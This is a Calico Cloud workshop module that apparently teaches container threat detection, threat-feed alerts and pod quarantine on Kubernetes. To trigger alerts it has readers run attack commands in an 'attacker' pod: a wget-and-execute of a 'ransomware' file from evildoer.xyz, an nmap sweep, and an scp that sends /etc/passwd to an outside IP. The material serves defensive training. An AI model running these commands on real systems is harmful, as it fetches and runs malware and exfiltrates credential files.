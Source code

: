 # Module 3 - Malware protection, access control and quarantine with Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. Navigate to `Threat Defense > Container Threat Detection` and click the `Enable Container Threat Detection` button.

   ![enable-threat-detection](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/89d290a7-2aef-4a6b-8813-11bf94db2577)

   Perfect! Now, any suspicious activities will generate an alert. Let's try some.

   To see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

## Malware execution alert and security events

Security events suggest the possible presence of a threat actor in your Kubernetes cluster. These events can take various forms, such as a DNS request to a suspicious domain, the activation of a Web Application Firewall (WAF) rule, unauthorized access to sensitive files, or the detection of malware. Calico Cloud offers a centralized dashboard for security engineers and incident response teams to efficiently oversee and respond to these threat alerts. The advantages of using Calico Cloud in this context include:

- A filtered list of critical events with recommended remediation
- Identify impacts on applications
- Understand the scope and frequency of the issue
- Manage alert noise by dismissing events (show/hide)

To test this feature, we can download a file containing the hash of malware and execute it inside the pod attacker.

1. Execute the bash inside the pod attack in the way you can interact with its shell prompt:

   ```bash
   kubectl exec attacker -it -- /bin/bash
   ```

2. From the bash inside the pod `attacker`, execute the following command to download the malware, change its permission and run it.

   ```bash
   wget http://evildoer.xyz/ransomware
   chmod +x ransomware
   ./ransomware
   ```
   
3. Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   ![security-events](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/0264703a-ff38-4fc5-b65a-24ef187803ee)

   Because the `ransomware` file has a hash that identifies it as malware, Calico will create a **Malware** event indicating its execution event. Additionally, a security event showing the modification of the file permission (`chmod +x ransomware`) will be created as well.

   Optionally, you can also try the following commands and observe the security events that are created;
   
   ```bash
   apk add nmap
   nmap -sn $(hostname -i)/28
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security` again.

## Threat Feeds

In modern cloud-native security, threat intelligence feeds are vital for monitoring and tracking the IP addresses and domains associated with known malicious actors. Calico Cloud integrates threat intelligence feeds, including AlienVault, into its default security policies. This means that right from the outset, any traffic directed to suspicious IP addresses or domains is automatically blocked without requiring additional setup.

1. Explore the Threat Feeds available in Calico Cloud UI in the `Threat Defense` > `Threat Feeds`. Click on each one to visualize the lists of IP addresses or domains.

   ![threat-feeds](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/b4bad2fb-9698-476f-8a58-f80a3747f11b)

2. Using the pod attacker, try to connect to some of the IP addresses and domains you found in the alienvault lists.

   ```bash
   curl -m2 -vvvvv 
   ```

3. Wait a minute and go to the Calico Cloud UI in the `Activity` > `Alerts`. You should be able to see the alerts for the connection attempt.

   ![activity-alerts](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/dadb5ce6-db8a-455c-bdcc-f26625841ffe)

## Quarantine a workload

Suppose you have a compromised workload in your environment and want to conduct further investigation on it. In that case, you should not terminate the workload but isolate it so it will not be able to cause damage or spread laterally across your environment. In this situation, you should quarantine the pod by applying a security policy that will deny all the egress and ingress traffic and log all the communications attempts from and to that pod.

We have the `quarantine` policy created in the `security` tier. This policy has a label selector of `quarantine = true`. Let's see how it works.

1. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if that's the case.).

   - Test the connection to a local service

     ```bash
     curl -m3 http://vote.vote
     ```

   - Test the connectivity with the Kubernetes API

     ```bash
     curl -m3 -k https://kubernetes:443/versions
     ```  

   - Test the connectivity with the internet

     ```bash
     curl -m3 http://neverssl.com
     ```  

2. Label the attacker pod with `quarantine = true`. 

   ```bash
   kubectl label pod attacker quarantine=true
   ```

3. Repeat the tests from step 1. Now, as you can see, they cannot establish communication with any of the destinations.

--- 
[:arrow_right: Module 4 - Enforcing security policy to stop C&C attacks](/mod/module-4-security-policies.md)   <br>

[:arrow_left: Module 2 - Analyze service-to-service communication](/mod/module-2-analyze-communications.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
